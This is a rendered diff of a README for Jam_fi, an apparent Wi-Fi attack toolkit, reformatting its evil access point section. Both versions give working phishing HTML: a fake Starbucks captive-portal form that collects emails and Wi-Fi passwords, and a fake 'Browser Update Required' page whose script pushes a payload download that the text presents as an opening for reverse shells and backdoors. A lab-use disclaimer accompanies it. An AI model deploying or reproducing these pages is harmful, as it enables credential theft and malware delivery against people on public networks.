

Before and after one commit to ekomsSavior/Jam_fi, a Markdown page: README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

`````diff
--- a/README.md
+++ b/README.md
@@ -110,48 +110,60 @@ Lowering sleep delay to 0.2 or less can speed things up, but may increase CPU us
 
 👿 Evil AP Customization
 🎨 Customize the Captive Portal
+
 Edit this file to make your own fake login page:
 
-bash
-Copy
-Edit
 loot/login.html
-Wanna make it look like Starbucks? Just change the login.html body like this:
 
-<pre> ```html <h2>Welcome to Starbucks Free Wi-Fi</h2> <p>Please sign in to continue</p> <form method="POST" action="/login"> <input type="text" name="username" placeholder="Email"><br> <input type="password" name="password" placeholder="Wi-Fi Password"><br> <input type="submit" value="Connect"> </form> ``` </pre>
+Wanna make it look like Starbucks? Just change the login.html body like this
+
+````html
+<h2>Welcome to Starbucks Free Wi-Fi</h2>
+<p>Please sign in to continue</p>
+<form method="POST" action="/login">
+  <input type="text" name="username" placeholder="Email"><br>
+  <input type="password" name="password" placeholder="Wi-Fi Password"><br>
+  <input type="submit" value="Connect">
+</form>
+
 You can view your collected credentials in:
 
-bash
-Copy
-Edit
 loot/creds.txt
+
 🔐 Advanced Hack: Fake Browser Update + Payload (Optional)
+
 JamFi lets you simulate a fake browser update prompt using pure HTML + JavaScript — no Flipper or Rubber Ducky required!
 
 Once a device connects to your Evil AP, redirect them to a custom update page by editing:
 
-bash
-Copy
-Edit
 loot/injection.html
+
 Here’s a simple example:
 
-<pre> ```html <!-- loot/injection.html --> <h2>🔒 Browser Update Required</h2> <p>To continue browsing, please install the latest security patch.</p> <button onclick="downloadUpdate()">Update Now</button> <script> function downloadUpdate() { const a = document.createElement('a'); a.href = 'http://10.0.0.1/fake_update.exe'; // Customize your payload here a.download = 'update.exe'; document.body.appendChild(a); a.click(); } </script>
-bash
-Copy
-Edit
-</pre>
+````<!-- loot/injection.html -->
+<h2>🔒 Browser Update Required</h2>
+<p>To continue browsing, please install the latest security patch.</p>
+<button onclick="downloadUpdate()">Update Now</button>
 
-Place your payload in the `loot/` folder as:
+<script>
+function downloadUpdate() {
+  const a = document.createElement('a');
+  a.href = 'http://10.0.0.1/fake_update.exe';  // Customize your payload here
+  a.download = 'update.exe';
+  document.body.appendChild(a);
+  a.click();
+}
+</script>
+
+Place your payload in the loot/ folder as:
 
 fake_update.exe
 
-yaml
-Copy
-Edit
+You now have a simulated Remote Code Execution (RCE) opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence depending on your setup.
 
-Now you have a simulated **Remote Code Execution (RCE)** opportunity: if the victim downloads and runs the file, you can trigger reverse shells, backdoors, or persistence (depending on your setup).
-⚠️ Jam_Fi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.
+⚠️ JamFi does not include any malicious payloads — it's up to you to create safe, controlled experiments in your own lab. This is where red teamers, CTF lovers, and students can shine.
+
+
 
 ## 💼 The loot/ Folder
 
`````
